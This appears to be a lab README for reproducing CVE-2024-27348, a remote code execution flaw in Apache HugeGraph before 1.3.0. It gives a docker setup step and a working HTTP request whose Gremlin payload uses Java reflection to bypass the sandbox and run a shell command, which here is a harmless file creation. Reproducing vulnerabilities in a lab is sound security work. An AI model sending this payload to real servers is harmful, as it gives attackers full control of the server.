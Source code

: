 # Apache HugeGraph Remote Command Execution Vulnerability (CVE-2024-27348)

HugeGraph is a user-friendly, efficient, and universal graph database that implements the Apache TinkerPop3 framework and is compatible with the Gremlin query language.
In versions prior to Apache HugeGraph 1.3.0, there is a remote code execution (RCE) vulnerability. Attackers can bypass sandbox restrictions through Gremlin and execute any command to gain full control of the server.

Reference:

- https://blog.securelayer7.net/remote-code-execution-in-apache-hugegraph/
- https://github.com/apache/incubator-hugegraph
- https://hugegraph.apache.org/
- https://github.com/kljunowsky/CVE-2024-27348

## Start Vulnerability Environment

Execute the following command to start the vulnerability environment:

```
docker compose up -d
```

After startup, you can see the web page by accessing ```http://your-ip:8088/```.

## Vulnerability Reproduction

Intercept the request through Burp Suite and exec the following PoC:

```
POST /gremlin HTTP/1.1
Host: tonghuaroot.local:8088
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 758

{   

    "gremlin": "Thread thread = Thread.currentThread();Class clz = Class.forName(\"java.lang.Thread\");java.lang.reflect.Field field = clz.getDeclaredField(\"name\");field.setAccessible(true);field.set(thread, \"SL7\");Class processBuilderClass = Class.forName(\"java.lang.ProcessBuilder\");java.lang.reflect.Constructor constructor = processBuilderClass.getConstructor(java.util.List.class);java.util.List command = java.util.Arrays.asList(\"touch\", \"/tmp/tonghuaroot\");Object processBuilderInstance = constructor.newInstance(command);java.lang.reflect.Method startMethod = processBuilderClass.getMethod(\"start\");startMethod.invoke(processBuilderInstance);",

    "bindings": {},

    "language": "gremlin-groovy",

    "aliases": {}

}
```
![alt text](image.png)

Enter the container with ```docker compose exec hugegraph bash```, you can see that ```/tmp/tonghuaroot``` has been successfully created:

![alt text](image-1.png)

